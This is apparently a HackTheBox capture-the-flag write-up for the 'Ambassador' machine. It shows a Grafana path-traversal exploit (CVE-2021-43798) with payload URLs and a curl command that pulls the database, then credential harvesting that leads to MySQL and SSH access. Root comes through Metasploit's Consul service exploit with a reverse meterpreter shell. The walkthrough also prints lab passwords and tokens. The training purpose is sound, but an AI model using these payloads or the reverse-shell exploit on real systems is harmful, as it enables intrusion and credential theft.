





## Information 

OS: Linux 
## Reconnaissance
### nmap 

 > Easy Scan 

```
nmap -sV 10.10.11.183 
```


> Open Service
    1. SSH on Port 22
    2. HTTP on Port 80
    3. PPP on Port 3000 (?)
    4. Mysql on Port 3306

### Gathering Information from Web Page 

> Home Page 
> Here is 1 Post in home page


> Check detail of the POST


> It said 'Use **developer** account to SSH. DevOps will give you the password'
> So, try to access SSH with 'developer', but it will failed to connect, since I don't have password 


#### Grafana

> Access to Port 3000, that is a Grfana run on this port, and it will redirect to ```/login``` 


> Search the default login credential by Google --> Failed. 


> Notice the Grafana version : 8.2.0


> Search the vulnerability and exploit code 
##### CVE-2021-43798 PoC & Brief Explain 

- [Grafana_CVE-2021-43798](https://securityonline.info/grafana-arbitrary-read-file-vulnerability-alert/)
- The vulnerability CVE is CVE-2021-43798 with a CVSS score of 7.5.

> The vulnerable URL path is: 
> {grafana_host_url}/public/plugins/<“plugin-id”> where <“plugin-id”> is the plugin ID for any installed plugin.
 
<details>
  <summary>Every Grafana instance comes with pre-installed plugins like the Prometheus plugin or MySQL plugin </summary>
  <p> The following URLs are vulnerable for every instance:</p>
  <pre><code>

{grafana_host_url}/public/plugins/alertlist/
{grafana_host_url}/public/plugins/annolist/
{grafana_host_url}/public/plugins/barchart/
{grafana_host_url}/public/plugins/bargauge/
{grafana_host_url}/public/plugins/candlestick/
{grafana_host_url}/public/plugins/cloudwatch/
{grafana_host_url}/public/plugins/dashlist/
{grafana_host_url}/public/plugins/elasticsearch/
{grafana_host_url}/public/plugins/gauge/
{grafana_host_url}/public/plugins/geomap/
{grafana_host_url}/public/plugins/gettingstarted/
{grafana_host_url}/public/plugins/grafana-azure-monitor-datasource/
{grafana_host_url}/public/plugins/graph/
{grafana_host_url}/public/plugins/heatmap/
{grafana_host_url}/public/plugins/histogram/
{grafana_host_url}/public/plugins/influxdb/
{grafana_host_url}/public/plugins/jaeger/
{grafana_host_url}/public/plugins/logs/
{grafana_host_url}/public/plugins/loki/
{grafana_host_url}/public/plugins/mssql/
{grafana_host_url}/public/plugins/mysql/
{grafana_host_url}/public/plugins/news/
{grafana_host_url}/public/plugins/nodeGraph/
{grafana_host_url}/public/plugins/opentsdb
{grafana_host_url}/public/plugins/piechart/
{grafana_host_url}/public/plugins/pluginlist/
{grafana_host_url}/public/plugins/postgres/
{grafana_host_url}/public/plugins/prometheus/
{grafana_host_url}/public/plugins/stackdriver/
{grafana_host_url}/public/plugins/stat/
{grafana_host_url}/public/plugins/state-timeline/
{grafana_host_url}/public/plugins/status-history/
{grafana_host_url}/public/plugins/table/
{grafana_host_url}/public/plugins/table-old/
{grafana_host_url}/public/plugins/tempo/
{grafana_host_url}/public/plugins/testdata/
{grafana_host_url}/public/plugins/text/
{grafana_host_url}/public/plugins/timeseries/
{grafana_host_url}/public/plugins/welcome/
{grafana_host_url}/public/plugins/zipkin/

</code></pre>
</details>

> Affected version
- Grafana 8.0.0-beta1 to 8.3.0

> PoC

```
$HOST/public/plugins/graph/../../../../../../../../etc/passwd
```

> Solution
-  Please update Grafana to version 8.3.1, 8.2.7, 8.1.8, and 8.0.7.
## Exploit 
### CVE-2021-43798 Exploit 

> According to the PoC in [this article](https://securityonline.info/grafana-arbitrary-read-file-vulnerability-alert/)


> Try the payload on victim 
1. Access to Grafana home page (```http://10.10.11.183:3000```), it will redirect to ```/login``` page
2. Access to payload path and get the contect back(``` http://10.10.11.183:3000/public/plugins/graph/../../../../../../../../etc/passwd```)


> Tring to use this vulnerability to access ssh key, but failed.
- According to [this article](https://github.com/jas502n/Grafana-CVE-2021-43798)


> Find Following: 
   
1. ```/var/lib/grafana/grafana.ini```


2. ```/var/lib/grafana/grafana.db```



> Access /var/lib/grafana/grafana.db
>admin PW : 

```
dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab0690X27trve2uf960YdtaMF2022-03-13
```


> Plain text password in ini file 

```
messageInABottle685427
```


> Login to Grafana


> Browse to grafana

- user: admin
- Link to mysql (mysql.yml)
- mysql DB : grafana
- mysql username: grafana
-  mysql password doesn't disclose

> Users Setting content


> Mysql YAML content

 

> Settings Content 


> After searching in grafana, I can't find more other information, so I tried to search DB name: grafana in grafana.db in Burp Repeater screen, at first, I only found grafana string, but I didn't find any strings which looks like password.... 
> So, I decided to download the grafana db file to local and use other tools to check it clearly.
> Download the ```grafana.db``` to local 

```
curl --path-as-is http://10.10.11.183:3000/public/plugins/text/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```


> Using sqlite to open db file
> Keep finding anything suscpicious from db file 

```
.tables  <--  SQLite command check existing table
```


> Find 2 strings, and it has highly possible is mysql  password

```
SELECT * FROM data_source;
```

```
1. dontStandSoCloseToMe63221!     <- Correct one
2. uKewFgM4z
```


> Use the 2 stings to login, ya!! the first one is password.

```
mysql -h 10.10.11.183 -u grafana -pdontStandSoCloseToMe63221!
```


> Query Tables in victim Mysql server 
> Find Database List

```
show databases;
```


> Check DB : ```whackywidget``` and check its tables

```
use whackywidget;
show tables;
```


> Check table : ```users```

```
SELECT * FROM users;
```

> User: developer's credential 
> Find user developer's password, and according to the web page, I think this is ssh credential, and I can use this credential to login victim server.

```
YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
```


>  Decode the password, get plaintext

```
anEnglishManInNewYork027468
```


> Use this credential to login to victim server

```
ssh developer@10.10.11.183
```


 > Check user flag: ```143904fca24ea0e0d63a943610c4c588```


## Post Exploitation
### Information Gathering 

> Network status 

```
netstat -ano 
```


> Linpeas Result
- Unexpected file in ```/opt```


> Checking those files under 

```
/opt
```
 
1. consul
2. my-app


> Check my-app directory content


> Here is a git directory, let's check git history

```
git show
```


> An interesting command, I think that is the consul command to do something about mysql
> And it needs token as parameter to identify.

```
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
#### Research for consul 

> According to [discussion](https://breached.to/Thread-Ambassador-HTB-Discussion?page=4), I check consul first.
> Research for consul, I found [this](https://developer.hashicorp.com/consul/commands/kv/put)


> So, I think the command is try to write some data into specific path in kv.
 > Checking consul version first.

``` 
Consul v1.13.2
```


> Checking the network status about consul 



> Then, search the related exploit article, here are 3 github related to this.

1. [metasploit consul_service_exec.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/misc/consul_service_exec.md)
2. [consul http api port 8500 allows remote script execution](https://github.com/hashicorp/consul/issues/5290)
3. [Protecting Consul from RCE Risk in Specific Configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)

>  So, I think the exploit point is focusing on agent API.
- And it shows that there is existing metasploit can use
- So, using the token I get before : ```bb03b43b-1d81-d62b-24b5-39540ee469b5``` to set up the attack in metasploit.
### Privilege Escalation

> SSH Port Forwarding

```
ssh -L 8500:0.0.0.0:8500 developer@10.10.11.183
```

> msfconsole 

```
msfconsole
search consul
```


 > use exploit

```
use exploit/multi/misc/consul_service_exec
```


- show options 

```
show options
```


> set necessary information 

```
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set rhosts 127.0.0.1
set lhost 10.10.16.47 #<my ip>
set lport 4444
set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
```


 > Run exploit and get meterpreter back

```
exploit 
```

 

> Get root flag: ```6bfb9fdf20924a2504cf59ff43cc720b```


## Reference 
### Writeup

- [(Writeup)HTB ambassador](https://meowmeowattack.wordpress.com/2022/10/03/hackthebox-htb-writeup-ambassador-medium/)
- [(Discussion)BreachedForums- Ambassador - HTB [Discussion]](https://breached.to/Thread-Ambassador-HTB-Discussion?page=4)


### Vulnerability 

#### CVE-2021-43798

- [(Research)How I found the Grafana zero-day Path Traversal exploit that gave me access to your logs](https://labs.detectify.com/2021/12/15/zero-day-path-traversal-grafana/)
- [(Research)Exploit for Path Traversal in Grafana CVE-2021-43798](https://sploitus.com/exploit?id=AFB56221-47F2-5AB9-8905-B67D3ADB801A)
- [(GITHUB)CVE-2021-43798 Exploit](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798)


- [(GITHUB)CVE-2021-43798 Explain and Payload](https://github.com/julesbozouklian/CVE-2021-43798)


- [CVE-2021-43798 Brief Introduction and Payload](https://securityonline.info/grafana-arbitrary-read-file-vulnerability-alert/)


- [How I found the Grafana zero-day Path Traversal exploit that gave me access to your logs](https://labs.detectify.com/2021/12/15/zero-day-path-traversal-grafana/)
###### Success 
- [CVE-2021-43798 Grafana Unauthorized arbitrary file reading vulnerability](https://github.com/jas502n/Grafana-CVE-2021-43798)


- [Ensure encryption of data source secrets](https://github.com/grafana/grafana/blob/main/pkg/util/encryption.go)


#### Grafana

- [Grafana Document](https://grafana.com/docs/grafana/v9.0/getting-started/build-first-dashboard/)
- [(GITHUB)Grafana Source Code ](https://github.com/grafana/grafana)
- [(GitLab)Grafana Configuration](https://docs.gitlab.com/ee/administration/monitoring/performance/grafana_configuration.html)

#### Consul Exploit

- [HashiCorp Consul](https://www.consul.io/)
- [Consul Command (Consul KV Put)](https://developer.hashicorp.com/consul/commands/kv/put)
- [Service - Agent HTTP API](https://developer.hashicorp.com/consul/api-docs/agent/service)
- [Hashicorp Consul Remote Command Execution via Services API](https://www.rapid7.com/db/vulnerabilities/hashicorp-consul-command-exec-via-services/)
- [metasploit consul_service_exec.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/misc/consul_service_exec.md)
- [consul http api port 8500 allows remote script execution](https://github.com/hashicorp/consul/issues/5290)
- [Protecting Consul from RCE Risk in Specific Configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)

### Mysql Related 

- [INFORMATION_SCHEMA Table Reference](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html)

### SSH Related 

- [How to Set up SSH Tunneling (Port Forwarding)](https://linuxize.com/post/how-to-setup-ssh-tunneling/)
```
ssh -L [LOCAL_IP:]LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
```


### Reverse Shell

- [Reverse Shell Generator](https://www.revshells.com/)

###### tags: `HackTheBox` `Ambassador` `linux`
